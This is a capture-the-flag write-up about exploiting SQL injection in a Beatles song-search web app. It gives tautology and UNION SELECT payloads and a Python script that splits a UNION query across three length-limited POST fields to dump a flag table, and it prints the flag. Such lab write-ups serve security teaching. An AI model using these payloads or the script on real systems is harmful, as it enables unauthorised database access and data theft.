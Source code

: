 # Checking the site

Visiting the site has the following. A simple song lookup with Beatles songs.

![](screenshots/1.png)


# SQLi

The dropdown menus operate with GET parameters, one index each. The text based search works with POST parameters, 3 inputs.

The SQL query is printed out on requests, e.g. `SELECT * FROM Song Where title like '%%’;`. It is clear even after a single query that the 3 inputs are simply concatenated, 30-30-31 long.

It is a basic SQL injection with limited length. For example `123` reveals nothing, but `123' OR 1=1#` reveals all songs.

The columns of the table can be figured out by incrementing the number of parameters for `UNION SELECT`. It has 6 columns, has no output for anything else: `UNION SELECT 1,2,3,4,5,6#`.

The only problem is the 30 char limit, but it can be bypassed with a small [exploit.py](workdir/exploit.py).

```python
#!/usr/bin/env python3
import requests
import sys
url = 'http://10.10.4.12:881'
query = sys.argv[1]
payload = "?' UNION "+query+" #"
data = {"song": payload[0:30], "song2": payload[30:60], "song3": payload[60:]}
x = requests.post(url, data=data)
sub = x.text
sub = sub[sub.find("SELECT"):]
find = "<tr style=\"color: #8888ff; font-size:20px;\"> <td></td><td>"
lines = sub.split('<tr style=\"color: #8888ff; font-size:20px;\"> <td></td><td>')
for line in lines:
    cols = line.replace("</td><td>", "\t")
    cols = cols.replace("<td>", "")
    cols = cols.replace("</td>", "")
    cols = cols.replace("</tr>", "")
    cols = cols.replace("</table></font>", "")
    print(cols)
```

The only thing to pay attention now is the columns of the output. The database and table structure can be checked out.

![](screenshots/2.png)

There is a `SuperSecretFlag` table, with the flag inside.

![](screenshots/3.png)

# Flag
`HCSC{k0mp0nalt_SQ1_1njekcio_konnyu?}`